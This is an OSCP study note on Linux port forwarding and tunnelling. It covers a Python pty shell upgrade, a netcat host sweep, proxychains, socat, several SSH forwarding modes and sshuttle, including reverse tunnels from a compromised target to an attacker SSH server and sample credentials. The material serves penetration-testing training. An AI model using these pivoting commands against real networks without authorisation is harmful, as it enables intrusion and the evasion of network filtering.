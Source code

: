 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/10. Port Redirection & Tunneling/1. Linux Port Forwarding/"}
---
```


------
## Tunneling Theory + SOCKS:

Port forwarding may need tty capabilities on target machine, so import with python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate hosts to tunnel to without nmap:
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

Confirm the tunnel is working from another shell by listing listening ports:
```
ss -ntplu
```

Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- -q silences any proxychains output
- Might use socks4 depending on versioning
- Won't work on statically-linked binaries
- Edit **tcp_read_time_out** and **tcp_connect_time_out** values in the conf-file for faster connections.
--------
## Socat port forwarding:
```
socat -ddd TCP-LISTEN:<listeningport>,fork TCP:<forkip>:<forkport>
```

------------
## SSH Local Port Forwarding:
```
ssh -v -N -L 0.0.0.0:2345:<forkip>:<forkport> <sshuser>@<passthroughip>
```

--------
## SSH Dynamic Port Forwarding:
- Allows for multiple end-sockets at wherever packets can be received
- Uses SOCKS as proxying protocol
- Only limit is that packets have to be properly formatted by SOCK-compatible client software
```
ssh -N -D 0.0.0.0:2345 <sshuser>@<passthroughip>
```

-------
## SSH Remote Port Forwarding
- Outgoing connections are often much less filtered
- If we can't control and bind to any ports on the target machine, instead we can SSH out and bind to a attacker SSH server
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Check server is listening:
```
sudo ss -ntplu
```
3. Set up SSH tunnel back to server on target:
```
ssh -N -R 127.0.0.1:2345:10.4.203.215:5432 crabfeather@192.168.45.180
```
4. Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
5. Win!

---------
## SSH Remote Dynamic Port Forwarding:
- Working as Remote PF with functionality of dynamic tunneling
- Available since OpenSSH 7.6 in Oct 2017 -- required client's version
- Works with -R flag but with only one socket, and only needing port which defaults to loopback address
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Set up SSH tunnel back to server on target:
```
ssh -N -R 2345 crabfeather@192.168.45.180
```
3. Win!

------
## SSHuttle:
- Turns a SSH connection into something similar to a VPN
- Requires root privs on SSH client and Python3 on SSH server
- Routes all types of traffic, including UDP and ICMP using iptables
- Also less packet loss (apparently)
```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
